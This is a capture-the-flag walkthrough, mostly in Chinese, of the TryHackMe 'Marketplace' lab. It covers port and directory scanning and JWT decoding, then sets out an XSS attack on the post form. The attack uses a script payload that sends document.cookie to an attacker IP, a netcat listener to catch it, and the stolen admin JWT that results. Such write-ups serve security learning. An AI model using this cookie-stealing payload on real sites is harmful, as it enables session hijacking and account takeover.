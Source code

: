 # The Marketplace
> URL : https://tryhackme.com/room/marketplace

IP : 10.10.74.8

## Recon
- 首先先掃 Port
    - `rustscan -a 10.10.74.8 -r 1-65535`
        - ![](https://i.imgur.com/THfTPBa.png)
        - 有開 22 80 32768
    - `nmap -A -p22,80,32768 10.10.74.8`
        - ![](https://i.imgur.com/DQEPjj6.png)
- 觀察首頁
    - ![](https://i.imgur.com/WZZdAkU.png)
    - 感覺滿廉價ㄉQQ
- 掃目錄
    - `python3 dirsearch.py -u http://10.10.74.8/`
        - `robots.txt`
        - `login`
        - `signup`
        - ![](https://i.imgur.com/WTfL2Io.png)
- 嘗試註冊
    - ![](https://i.imgur.com/kyz3rGk.png)
    - `meow` / `meow` 
- 嘗試貼文
    - ![](https://i.imgur.com/8ivNagm.png)
    - 發現下面說不能PO檔案，感覺有埋梗
        - ![](https://i.imgur.com/NBrphH9.png)
    - 用 F12 把 disable 拔掉再測
        - ![](https://i.imgur.com/5IWEXkh.png)
- 觀察 `robots.txt`
    - ![](https://i.imgur.com/qs3uPFx.png)
- 觀察 Session
    - ![](https://i.imgur.com/6aKjy8x.png)
    - 看起來很 Base64
        - `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoibWVvdyIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjI5MDk5NDQwfQ.6MNSd_Wf1ytqceTjhWWGEbB4AhzTHFshHCLIeVF_Zeo`
        - 解碼後看起來是 JWT
            - `{"alg":"HS256","typ":"JWT"}{"userId":4,"username":"meow","admin":false,"iat":1629099440}5'YrN8VXa!1Ų,^`

## XSS
- 發現 Po 文處可以 XSS
    - ![](https://i.imgur.com/LVtMQ7d.png)
- 寫 Payload 偷餅乾
    - `<script>new Image().src="http://10.13.21.55:1234/"+document.cookie</script>`
    - ![](https://i.imgur.com/h6njKX1.png)
- 回報給管理員
    - ![](https://i.imgur.com/qrvN6r7.png)
- 用 `nc -l 1234` 來接
    - ![](https://i.imgur.com/mJaHJvK.png)
    - 收到管理員的餅乾
        - `GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjkxMDAxOTN9.f-eVVqF1AnFJEeuam97hn-Xz3fFNbQAJYTKrsDukzrU HTTP/1.1`
